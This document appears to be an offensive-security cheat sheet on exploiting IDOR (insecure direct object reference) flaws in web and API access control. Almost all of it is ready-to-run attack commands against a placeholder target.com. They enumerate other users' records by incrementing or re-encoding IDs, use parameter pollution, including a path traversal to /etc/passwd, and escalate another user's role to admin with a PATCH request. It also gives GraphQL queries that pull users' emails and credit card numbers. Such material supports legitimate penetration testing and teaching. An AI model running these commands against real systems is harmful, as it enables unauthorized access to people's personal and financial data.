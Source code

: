 
## Identifying IDORs

### Simple Parameter Manipulation

```c
# Numeric ID increment
curl -u user1:pass1 http://api.target.com/v1/users/123/profile
curl -u user1:pass1 http://api.target.com/v1/users/124/profile

# UUID/hash prediction
curl -u user1:pass1 http://api.target.com/v1/users/550e8400-e29b-41d4-a716-446655440000/profile
curl -u user1:pass1 http://api.target.com/v1/users/550e8400-e29b-41d4-a716-446655440001/profile
```

### Parameter Pollution

```c
# Multiple ID parameters
curl "http://target.com/download?file_id=legit123&file_id=admin456"
curl "http://target.com/api?user_id=valid123&user_id=victim789"
```

### AJAX Calls

```javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Understand Hashing/Encoding

```javascript
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

### Compare User Roles

```json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

## IDOR Enumeration

### Basic ID Enumeration

#### Numeric ID Increment/Decrement
```c
# Example: User profile access
curl "https://target.com/api/user/101"   # Valid request (your account)
curl "https://target.com/api/user/102"   # Check another user
curl "https://target.com/api/user/100"   # Check previous ID
curl "https://target.com/api/user/099"   # Leading zero test
```

#### UUID/GUID Manipulation

```c
# Predictable UUIDs (v1/v2) can be brute-forced
curl "https://target.com/api/invoice/550e8400-e29b-41d4-a716-446655440000"
curl "https://target.com/api/invoice/550e8400-e29b-41d4-a716-446655440001"
```

#### Hash Cracking (If IDs Are Obfuscated)

```c
# If IDs look like hashes (e.g., `d4d4d4d4`), try:
curl "https://target.com/api/doc/d4d4d4d4"  # Original
curl "https://target.com/api/doc/a1b2c3d4"  # Brute-force attempt
```

### Parameter Fuzzing

#### Changing Parameter Names

 ```c
 # Try different parameter names:
curl "https://target.com/profile?id=100"
curl "https://target.com/profile?user_id=100"
curl "https://target.com/profile?uid=100"
curl "https://target.com/profile?account=100"
```

#### HTTP Parameter Pollution (HPP)

```c
# Supply multiple parameters to confuse access control
curl "https://target.com/download?file=legit.pdf&file=../../etc/passwd"
curl "https://target.com/api?user=alice&user=bob"
```

## Bypassing Encoded/Obscured IDs

### Base64-Encoded IDs

```c
# Example: /user/MTIz (where "MTIz" = Base64 of "123")
echo "123" | base64  # Returns "MTIz"
curl "https://target.com/api/user/MTIz"  # Original
curl "https://target.com/api/user/MTI0"  # Incremented (124)
```

```c
for i in {100..110}; do 
    encoded=$(echo -n $i | base64 | tr -d '\n')
    curl -s "https://target.com/api/user/$encoded" | grep "email"
done
```

### Hashed IDs (MD5, SHA1, etc.)

```c
# If user_id looks like a hash (e.g., "5f4dcc3b5aa765d61d8327deb882cf99" = MD5("password"))
echo -n "101" | md5sum | cut -d' ' -f1  # Returns hash of "101"
curl "https://target.com/api/user/$(echo -n '102' | md5sum | cut -d' ' -f1)"
```

```c
hashcat -m 0 -a 3 "5f4dcc3b5aa765d61d8327deb882cf99" ?d?d?d  # Brute-force 3-digit MD5
```
### Custom Encoding (e.g., XOR, Bit-Shifting)

```c
# If user_id=246 corresponds to real_id=118 (246 = 118*2 + 10)
real_id = (246 - 10) // 2  # Returns 118
```

## IDOR in Insecure APIs

### REST API IDOR

```c
# Numeric ID increment
curl "https://api.target.com/v1/users/101"
curl "https://api.target.com/v1/users/102"

# UUID manipulation
curl "https://api.target.com/v1/invoices/550e8400-e29b-41d4-a716-446655440000"
curl "https://api.target.com/v1/invoices/550e8400-e29b-41d4-a716-446655440001"

# Using PUT/PATCH to modify other users
curl -X PATCH "https://api.target.com/v1/users/102" -d '{"role":"admin"}'
```

### GraphQL IDOR

```c
# Query other users' data
query {
  user(id: "encoded_user_id_here") {
    email
    creditCards { number }
  }
}

# Batch query attack
query {
  user1: user(id: "encoded_id_1") { email }
  user2: user(id: "encoded_id_2") { email }
}
```

### SOAP API IDOR (XML)

```c
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUserDetails>
      <userId>ENCODED_ID_HERE</userId>
    </GetUserDetails>
  </soap:Body>
</soap:Envelope>
```

## Bypassing Protections

### Swapping HTTP Methods

```c
# If GET is blocked, try POST
curl -X POST "https://target.com/api/user/ENCODED_ID"
```

### Adding Headers (API Key Spoofing)

```c
curl -H "X-API-Key: 12345" "https://target.com/api/user/ENCODED_ID"
```
### Parameter Pollution

```c
# If `user_id` is checked, try `account_id`, `uid`, etc.
curl "https://target.com/api/data?user_id=VALID_ID&account_id=VICTIM_ID"
```